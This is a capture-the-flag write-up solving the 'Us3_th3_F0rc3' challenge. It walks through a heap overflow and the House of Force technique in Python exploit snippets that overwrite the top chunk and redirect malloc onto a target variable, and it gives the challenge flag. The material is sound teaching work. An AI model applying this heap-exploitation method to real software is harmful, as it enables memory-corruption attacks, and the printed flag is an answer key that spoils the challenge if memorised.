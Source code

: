 # Wolverine Security Conference/CTF - Us3_th3_F0rc3

Original challenge link: https://ctf.wolvseccon.org/challenges#Us3_th3_F0rc3-49

You can also download challenge file in my repo: [Us3_th3_F0rc3.tar.gz](Us3_th3_F0rc3.tar.gz)

Download the tar file, extract it and let's start!
# 1. Find bug

First, we will use `file` and `checksec` to check for basic information:

```bash
$ file force0
force0: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc_2.28_no-tcache/ld.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=ad4116e8666c5ef497fcc3d643c84c7643651bda, with debug_info, not stripped

$ checksec force0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RPATH:    b'./glibc_2.28_no-tcache/'
```

This is a 64-bit file without being stripped and all the defences are on except the PIE. Next, we will read the given source code to know how it works.

We can see there is a function called print_flag() and it will print the flag for us. In main, we can see at the end is the comparation:

```c
if (!strcmp(TARGET, "I DID!")) {
    print_flag();
}
```

And if we can change `TARGET`, we will get the flag. 

Overall, we can just malloc() and cannot free(). In the first option, it will read size from user input, then malloc with that size. 

Then it will read data from user with the usable size plus 8, which means we can overwrite the metadata of the next chunk --> **Heap Overflow**

Finally, as the title of chall hinted, we will use a technique called `House of Force` for this chall. That's all we can find, let's move on!

# 2. Brainstorming

As we know, we will use the technique called `House of Force`, which you can view on this original site [here](https://github.com/shellphish/how2heap/blob/master/glibc_2.27/house_of_force.c) or in my technique repo [here](#)

And this is the original `House of Force` so just view 2 sites above and you will know how to conduct this technique.

# 3. Exploit

First, the program print out the address of heap and `TARGET` so let's get them:

```python
heap = int(p.recvline()[:-1].split(b' @')[1], 16)
target = int(p.recvline()[:-1].split(b' @')[1], 16)
```

Next we will malloc a chunk first and overwrite the topchunk size into `0xffffffffffffffff`:

```python
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Size: ', f'{0x10}'.encode())
payload = b'A'*0x18
payload += p64(0xffffffffffffffff)
p.sendlineafter(b'Data: ', payload)
```

And the topchunk size is changed:

![change-topchunk-size.png](images/change-topchunk-size.png)

Now, we will need to calculate the size to malloc. For this technique, we will abuse the **Integer overflow** of the topchunk so that when we malloc with the appropriate size, the topchunk will has the address same with address of `TARGET`. 

For an easy way to understand, I will demonstrate it below:

```python
>>> topchunk = 0x0000000000405030         # Without metadata
>>> TARGET = 0x0000000000404010           # We want topchunk + request_size = TARGET - 0x10
>>> hex(topchunk + 0xffffffffffffefd0)
'0x10000000000404000'                     # Include metadata of topchunk
```

So the size we want to malloc is `0xffffffffffffefd0`, and the result we have is `0x10000000000404000` (9 bytes in total with the most significant byte is `0x1`). But topchunk address is just 64-bit size so that most significant byte will be removed. 

That means after `malloc(0xffffffffffffefd0)`, the topchunk address will be `0x404000` (include metadata so the address to write is `0x404010`)

So with the heap address, we can calculate topchunk address. Hence, calculate the size we want to malloc:

```python
TARGET = TARGET | 0x10000000000000000        # We want integer overflow so 0x1 will be remove
# topchunk + request_size = TARGET - 0x10    # 
request_size = TARGET - 0x10 - topchunk      # 
```

So python script snippet is:

```python
topchunk = heap + 0x20 + 0x10
target = target | 0x10000000000000000
request_size = target - 0x10 - topchunk
print("Old topchunk (without metadata): " + hex(topchunk))
print("Size to malloc: " + hex(request_size))
print("New topchunk (with metadata): " + hex(topchunk + request_size))
```

And let's malloc it again with that size:

```python
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Size: ', f'{request_size}'.encode())
p.sendlineafter(b'Data: ', b'B'*8)
```

Let's check in gdb. This is the topchunk before the malloc with large size:

![old-topchunk.png](images/old-topchunk.png)

Look at the size to malloc:

![malloc-big-size.png](images/malloc-big-size.png)

And we can get the 64-bit address for new topchunk (**Integer Overflow** so `0x1` is removed):

![new-topchunk.png](images/new-topchunk.png)

So let's make it malloc and check again:

![after-malloc.png](images/after-malloc.png)

So now new topchunk is at 0x404000. Let's malloc again and this chunk will be `TARGET` address:

![rax.png](images/rax.png)

This is the return pointer to chunk just after malloc. So we just simply put the string `I DID!\x00` to it and we got the flag:

```python
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Size: ', f'{0x20}'.encode())
p.sendlineafter(b'Data: ', b'I DID!\x00')
```

Full code: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `wsc{S0_Y0U_L34Rn3d_tH3_F0RCE?}`